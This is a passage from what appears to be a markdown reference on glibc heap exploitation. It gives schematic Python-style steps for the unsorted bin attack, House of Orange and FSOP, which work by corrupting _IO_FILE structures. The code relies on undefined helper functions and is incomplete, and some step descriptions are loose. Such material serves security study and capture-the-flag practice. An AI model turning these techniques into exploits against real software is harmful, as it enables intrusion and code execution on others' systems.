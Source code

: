 ### Unsorted Bin Attack

Exploits the unsorted bin to achieve arbitrary write.

```python
def unsorted_bin_attack():
    # 1. Allocate large chunk (> fastbin size)
    chunk_a = malloc(0x100)
    
    # 2. Allocate another chunk to prevent consolidation
    guard = malloc(0x100)
    
    # 3. Free chunk A (goes to unsorted bin)
    free(chunk_a)
    
    # 4. Overwrite chunk A's bk pointer
    target = target_address - 0x10  # Account for unsorted bin structure
    edit(chunk_a + 8, p64(main_arena + 88) + p64(target))
    
    # 5. Allocate to trigger unsorted bin removal
    malloc(0x100)  # Writes main_arena address to target
```

## Advanced Heap Techniques

### House of Orange

Exploits `_IO_FILE` structures when no `free()` function is available.

```python
def house_of_orange():
    # 1. Overflow top chunk size
    overflow_top_chunk_size(0x1)
    
    # 2. Trigger malloc_printerr through _IO_flush_all_lockp
    large_malloc = malloc(0x1000)
    
    # 3. Craft fake _IO_FILE structure
    fake_file = craft_io_file_structure()
    
    # 4. Overwrite stderr pointer
    overwrite_stderr(fake_file)
    
    # 5. Trigger error to execute crafted vtable
    trigger_error()
```

### FSOP (File Stream Oriented Programming)

Exploits `_IO_FILE` structures for code execution.

```python
def fsop_exploit():
    # 1. Leak libc addresses
    libc_base = leak_libc()
    system_addr = libc_base + system_offset
    
    # 2. Craft fake _IO_FILE
    fake_file = b""
    fake_file += p64(0)  # _flags
    fake_file += p64(0)  # _IO_read_ptr
    # ... craft complete structure
    
    # 3. Overwrite _IO_list_all or stderr
    overwrite_io_structure(fake_file)
```